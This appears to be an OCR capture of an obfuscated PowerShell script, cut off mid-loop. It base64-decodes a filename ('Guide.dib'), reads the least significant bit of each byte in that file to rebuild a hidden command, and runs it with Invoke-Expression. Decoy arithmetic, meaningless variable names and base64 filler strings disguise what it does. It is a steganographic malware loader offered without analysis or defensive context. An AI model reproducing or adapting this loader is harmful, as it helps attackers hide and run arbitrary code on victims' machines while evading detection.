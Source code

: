 ```powershell
$aefnmlksadasdkljfqewornzxc = [System.Convert]::FromBase64String("R3VpZGUuZGli")
$wqeiuyorczxasdkfjhzxbme = [System.Text.Encoding]::ASCII.GetString($aefnmlksadasdkljfqewornzxc)

$QxDrTjYnMvLpHsKjRbWfNgZcVxSbQxWpHfJz = Join-Path (Get-Location).Path $wqeiuyorczxasdkfjhzxbme

$PkVmJnLdQzThPwYsNcXfLuRsWvCdGmJbZtRp = [System.IO.File]::ReadAllBytes($QxDrTjYnMvLpHsKjRbWfNgZcVxSbQxWpHfJz)

$JbPfQrHlMkZsBxCyNdWhGtQxLuVtRqYpWtXp = [math]::sqrt(3025)
$NcYpQzVtFrJdLhSkWtMxKvGsRhCtNxWpQsBd = [math]::log10(10) * 10
$XrBnCdVwYsQtJkWzPrLpMfSnThXvGjRmYqVk = [math]::abs(-1 + 2)
$QrJtFvNpBwXsLnKgUvHpRcMzLkYvGtTzScXf = [math]::round([math]::PI)

$LmWtZxVpQjTsCnRyMvLpJkNxSrUtGhHfRcKs = ($JbPfQrHlMkZsBxCyNdWhGtQxLuVtRqYpWtXp * $XrBnCdVwYsQtJkWzPrLpMfSnThXvGjRmYqVk) + ($QrJtFvNpBwXsLnKgUvHpRcMzLkYvGtTzScXf * $NcYpQzVtFrJdLhSkWtMxKvGsRhCtNxWpQsBd) - $zeqwbeuibyxuygb

$MpQsBnLjHtVrXpWdNgZkTqScRmVlPyKtWhXc = New-Object System.Collections.ArrayList
$WcTfDrGpLxJvNzMkQsYrPtVcHwBmZnKsVnRq = $qdwcyvbaztyfuqwehvg
$HtRfGpLkNqMwXsPtVzYjLpScXrJwNmTpYvQr = $qdwcyvbaztyfuqwehvg

for ($LpWqXtNzJsVcKfRvQpTdBvGhXcJkMtWrXf = $LmWtZxVpQjTsCnRyMvLpJkNxSrUtGhHfRcKs; $LpWqXtNzJsVcKfRvQpTdBvGhXcJkMtWrXf -lt $uqiwebuibzxcuyb; $LpWqXtNzJsVcKfRvQpTdBvGhXcJkMtWrXf++) {
    $GxJnQfLkBsWrNzMpCtHyVwXkTpZyQjPtCr = $PkVmJnLdQzThPwYsNcXfLuRsWvCdGmJbZtRp[$LpWqXtNzJsVcKfRvQpTdBvGhXcJkMtWrXf] -band 1
    $WcTfDrGpLxJvNzMkQsYrPtVcHwBmZnKsVnRq = $WcTfDrGpLxJvNzMkQsYrPtVcHwBmZnKsVnRq -bor ($GxJnQfLkBsWrNzMpCtHyVwXkTpZyQjPtCr * [Math]::Pow(2, $HtRfGpLkNqMwXsPtVzYjLpScXrJwNmTpYvQr))
    $HtRfGpLkNqMwXsPtVzYjLpScXrJwNmTpYvQr++

    if ($HtRfGpLkNqMwXsPtVzYjLpScXrJwNmTpYvQr -eq $zy3evbzqvwtg487asgb) {
        if ($WcTfDrGpLxJvNzMkQsYrPtVcHwBmZnKsVnRq -eq $qdwcyvbaztyfuqwehvg) {
            break
        }

        [void]$MpQsBnLjHtVrXpWdNgZkTqScRmVlPyKtWhXc.Add([byte]$WcTfDrGpLxJvNzMkQsYrPtVcHwBmZnKsVnRq)
        $WcTfDrGpLxJvNzMkQsYrPtVcHwBmZnKsVnRq = $qdwcyvbaztyfuqwehvg
        $HtRfGpLkNqMwXsPtVzYjLpScXrJwNmTpYvQr = $qdwcyvbaztyfuqwehvg
    }
}

$HfDrQxJsWzKpLtVgXpYtMnCjPkZfVrYsLcGh = [System.Text.Encoding]::ASCII.GetString($MpQsBnLjHtVrXpWdNgZkTqScRmVlPyKtWhXc.ToArray())
iex $HfDrQxJsWzKpLtVgXpYtMnCjPkZfVrYsLcGh

$dfgAeJKLfgswERTfgjkl12 = "MA=="
$poiNMBcfgdqwerYxsdflq1 = [System.Convert]::ToInt32([System.Text.Encoding]::ASCII.GetString([System.Convert]::FromBase64String($dfgAeJKLfgswERTfgjkl12)))

$poiASDfgqerdfdseN1 = [math]::sqrt(1024)
$wertqweOPhgdfgdkl3 = [System.Convert]::FromBase64String("UG93ZXJTaGVsbA==")
$tyuIQWERTzxcfderq0 = [System.Text.Encoding]::ASCII.GetString($wertqweOPhgdfgdkl3)

if ($poiNMBcfgdqwerYxsdflq1 -eq $poiNMBcfgdqwerYxsdflq1) {
    $nmiHgTPOlkjyewrflp4 = $poiASDfgqerdfdseN1 + $poiNMBcfgdqwerYxsdflq1
}

$lkjSDfghUErtqweIOPh1 = "V2VsY29tZQ=="
$ghkZXCVgqwqerQWERTzx2 = [System.Text.Encoding]::ASCII.GetString([System.Convert]::FromBase64String($lkjSDfghUErtqweIOPh1))

for ($zxcvTREWSADfghJKLre3 = $poiNMBcfgdqwerYxsdflq1; $zxcvTREWSADfghJKLre3 -lt $nmiHgTPOlkjyewrflp4; $zxcvTREWSADfghJKLre3++) {
```